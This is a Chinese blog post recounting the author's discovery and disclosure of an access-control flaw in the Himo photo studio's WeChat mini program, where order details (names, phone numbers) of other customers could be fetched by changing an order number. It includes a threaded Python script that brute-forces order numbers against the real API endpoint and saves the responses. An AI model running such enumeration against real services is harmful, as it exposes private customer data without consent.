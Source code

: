 ```yaml
---
title: "Himo Mini Program Security Issues"
date: 2023-05-29T00:31:40+08:00
draft: false
tags: [Information Security, Himo]
---
```


> 因为预约了 6 月头在香港的 F1 签证，所以需要准备一张 **签证照**，在家这边的小城市，也没什么选择，没有 **天真蓝**，最好的就是 **海马体** 了。海马体生意还挺好，当天都约不到，只能约到 5 月 14 日星期天

在 2023 年 5 月 16 日我已经向海马体的技术团队提交了 **可能存在的安全问题**。~~直到今天（2023 年 5 月 29 日），我没有收到海马体技术团队的任何回信，我决定在我的个人博客公开。~~ 2023 年 5 月 31 日我收到了海马体技术团队的邮件，已经修复了该问题。

我在拍完照之后，现场等待了一会，大概也就不到半个小时，小姐姐就基本上修好了，让我确认一下是否有需要修改的地方，没有的话就开始打印了。打印完之后，她告诉我电子版随时可以在 **海马体小程序** 随时下载。这一点我觉得非常方便。

晚上在家的时候，突然想到海马体小程序的这回事，我在想这些个人的照片应该是存储在 **OSS** 上的，但是我在想会不会有可能是订单号+编号这样子的文件名来存储的，简单说就是这个图片的链接是有规律的。如果真的是这样的话，我就可以轻松拿到所有用户的照片。

我在 iPhone 上开启了抓包，结果发现所有的照片的外链确实是固定的，只不过文件名是随机的一串字符串，似乎没有任何规律，应该就是完全随机的。然而有一个 API 会返回这个用户所有的照片的文件名，这个 API 传递的参数似乎没有类似于 **userID** 这类的参数，也就是说完全按照 **Cookie** 来判断哪位用户的。到这里，想拿到别的用户的照片外链的计划算是泡汤了。

我又想到因为每一次的照片肯定是和订单绑定的，也就是说一个 **签证照** 订单，理论上应该就固定的只有 4 张图。我又仔细地看了一下订单返回的参数，比较有价值的就是用户名、手机号这些，别的都是预约的门店、门店地址、门店联系电话、订单价格之类的一些东西。但是有一个意外的惊喜，我发现订单详情的 API 在 GET 请求的时候携带了 **orderNo** 参数，我赶紧使用 API 测试工具，发起了请求，把 **orderNo** 改一个数字，API 返回了 “订单不存在”。心里窃喜，竟然返回的是订单不存在，而不是无权限，说明我的 **Cookie** 应该可以查看别人的订单信息，我可以拿到任何注册 **海马体小程序** 用户的 **联系方式**。

我的订单的 **orderNo** 是 **T2023051413359999**，以首字母 T 开头，前 8 位是当天的日期，后面的 8 个纯数字应该是随机的，但是这难不倒我，手搓一个 **Python** 脚本，从 **00000000** 穷举到 **99999999** 不就完事了，在多线程的帮助下，简直是小菜一碟。

```python
# 这是示例代码，不能直接运行

import threading
import httpx

headers = {
	"app-key": "himo-wx-mini-program",
	"content-type": "application/json",
	"X-Stream-Id": "xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx",
	"User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 16_5 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.37(0x18002528) NetType/WIFI Language/en",
	"Referer": "https://servicewechat.com/xxxxx/456/page-frame.html"
}

semaphore = threading.Semaphore(10)

def getOrderDetails(orderId):
	try:
		with semaphore:
			url = f"https://api-gateway.hzmantu.com/appointment_platform/order/order/order_detail?orderNo=T20230515{orderId}"
			resp = httpx.get(url=url, headers=headers)
			if resp.status_code == 200:
				with open("result.json", "a") as f:
					f.write(resp.text)
				print(resp.text)
	finally:
		semaphore.__exit__(None, None, None)
			
threads = []
for orderId in range(10013132, 99999999):
	thread = threading.Thread(target=getOrderDetails, args=(orderId,))
	thread.start()
	threads.append(thread)
	
for thread in threads:
	thread.join()
```

很快，Python 的程序跑出了结果，验证了我的猜想。来自 **武汉** 的一位幸运网友。（**为了保护他人隐私，已将关键信息打码**）

![202305295XA9GS](https://r2.qwq.mx/blog/202305295XA9GS.png)

我在 5 月 15 日凌晨发了一条朋友圈和微博，在微博艾特了 **缦图摄影** 和 **海马体照相馆**。很荣幸，在微博私信和我的邮箱都有工作人员联系我，下午醒来的时候我及时地回复了邮件，很遗憾的是过去了接近 2 周的时间，我没有收到任何回信，我不知道他们是修复了这个问题，还是说直接忽略了。之后我也没有再去验证。

![20230529fzK3kq](https://r2.qwq.mx/blog/20230529fzK3kq.png)

其实我写这篇博客，只是想分享这一段有趣的小研究，也算是为海马体做出一点点贡献。**海马体小程序** 其实只是一个很好的例子，其实他们并不是一家小公司，而是一家在中国大陆范围内规模挺大的公司。除了海马体，在过去的时间里我还有研究过很多类似的小程序，很遗憾，大部分小程序都没有在 **用户个人信息** 做到很好保护。